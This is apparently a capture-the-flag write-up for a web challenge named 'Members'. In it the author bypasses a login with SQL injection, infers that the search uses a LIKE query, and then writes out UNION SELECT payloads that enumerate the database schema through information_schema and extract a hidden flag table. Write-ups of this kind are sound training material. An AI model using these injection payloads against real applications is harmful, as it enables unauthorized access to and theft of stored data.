









# Members

## Description



## Solution

When i got the flag from this challenge i was really confused because the flag didn't match with any challenge
and i thought it was a fake flag or that the flag was from the authentication challenge but i was wrong, this flag was from a challenge that wasn't even announced so maybe i was one of the first guys that solved it correctly lol but i forgot to put the flag again until i wake up haha.

First i used a basic SQLI to login.


Then i look how did the query work and after some tests i thought it was a query with the LIKE operator.



As you can see after i searched "VO", the query matched a row and returned Stephane Schmitt-Pru"VO"st.

So, the query must be:

``` SELECT * FROM table WHERE field LIKE '%variable%'; ``` 

OR

``` SELECT * FROM table WHERE field LIKE "%variable%"; ``` 

Notice that the only difference are the quotes.

Possible SQLI:
``` SELECT * FROM table WHERE field LIKE "%variable%" and id=1;-- - %"; ```

And it worked, if i changed the id then the query returned a different member so let's try a UNION SELECT attack.



First, i needed to know how many columns the query returned and after some tests i knew that there were 3 columns.


Then, i writed data in the UNION SELECT attack just to test the data type that each column returned.





The next steps were:
<ul>
    <li>Get each database in the service.
    <p><code>%" UNION SELECT group_concat(schema_name), null, null FROM information_schema.schemata WHERE schema_name LIKE '%%' OR schema_name LIKE '%%';</code></p><br/>
    
    </li>
    <li>Get each table in the database.
    <p><code>%" UNION SELECT group_concat(table_name), null, null FROM information_schema.tables WHERE table_schema=database();-- -</code></p><br/>
    
    </li>
    <li>Get each column in each table or at least in the interesting ones.
    <p><code>%" UNION SELECT group_concat(column_name), null, null FROM information_schema.columns WHERE table_schema=database() AND table_name='supa_secret_table'-- -</code></p><br/>
    
    </li>
    <li>Search the flag in each row.
    <p><code>%" UNION SELECT GROUP_CONCAT(flag), null, null FROM supa_secret_table; -- -</code></p><br/>
    
    </li>
</ul>

That's how i got the flag.

```
Remember us, remember that we lived...
```